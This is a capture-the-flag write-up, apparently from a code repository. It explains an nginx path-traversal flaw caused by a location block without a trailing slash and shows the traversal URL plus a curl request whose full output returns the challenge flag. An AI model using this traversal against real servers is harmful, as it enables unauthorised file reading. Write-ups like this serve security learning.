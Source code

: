 # Stage 3: travel - web - easy

## Challenge

Fun climbing up: http://108.61.211.185:8081/

## Solution

The nginx configuration showed in the root of the given server has some strange
configuration of the /flag location. See nginx.conf for the full configuration.

The location does not end with a "/", so it is vulnerable to directory traversal.
With this knowledge, are able to read files outside of the directory. To do this,
the following URL is used:

```
http://108.61.211.185:8081/flag../flag
```

This URL will open the flag file, regarding of the location configuration in
nginx. This will show the flag:

```
root@blackbox: # curl -v http://108.61.211.185:8081/flag../flag
*   Trying 108.61.211.185...
* TCP_NODELAY set
* Connected to 108.61.211.185 (108.61.211.185) port 8081 (#0)
> GET /flag../flag HTTP/1.1
> Host: 108.61.211.185:8081
> User-Agent: curl/7.62.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: nginx/1.14.0 (Ubuntu)
< Date: Sun, 29 Dec 2019 12:10:48 GMT
< Content-Type: text/plain
< Content-Length: 23
< Last-Modified: Fri, 27 Dec 2019 15:42:14 GMT
< Connection: keep-alive
< ETag: "5e062656-17"
< Accept-Ranges: bytes
<
junior-the_easy_way_up
```
